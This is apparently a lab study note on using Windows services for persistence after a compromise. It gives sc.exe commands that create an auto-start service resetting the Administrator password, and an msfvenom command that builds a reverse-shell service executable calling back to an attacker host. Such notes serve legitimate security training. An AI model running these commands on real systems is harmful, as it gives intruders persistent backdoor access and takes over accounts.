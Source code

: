 <figure><img src="../../.gitbook/assets/image (16) (6).png" alt=""><figcaption></figcaption></figure>

## Abusing Services

Windows services offer a great way to establish persistence since they can be configured to run in the background whenever the victim machine is started. If we can leverage any service to run something for us, we can regain control of the victim machine each time it is started.

A service is basically an executable that runs in the background. When configuring a service, you define which executable will be used and select if the service will automatically run when the machine starts or should be manually started.

There are two main ways we can abuse services to establish persistence: either create a new service or modify an existing one to execute our payload.

### Creating backdoor services

We can create and start a service named "THMservice" using the following commands.

**Victim**

```
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto

sc.exe start THMservice
```

**Note:** There must be a space after each equal sign for the command to work.

The "net user" command will be executed when the service is started, resetting the Administrator's password to `Passwd123`. Notice how the service has been set to start automatically (start= auto), so that it runs without requiring user interaction.

Resetting a user's password works well enough, but we can also create a reverse shell with msfvenom and associate it with the created service. Notice, however, that service executables are unique since they need to implement a particular protocol to be handled by the system. If you want to create an executable that is compatible with Windows services, you can use the `exe-service` format in msfvenom.

**Kali**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=4448 -f exe-service -o rev-svc.exe
```

You can then copy the executable to your target system, say in `C:\Windows` and point the service's binPath to it.
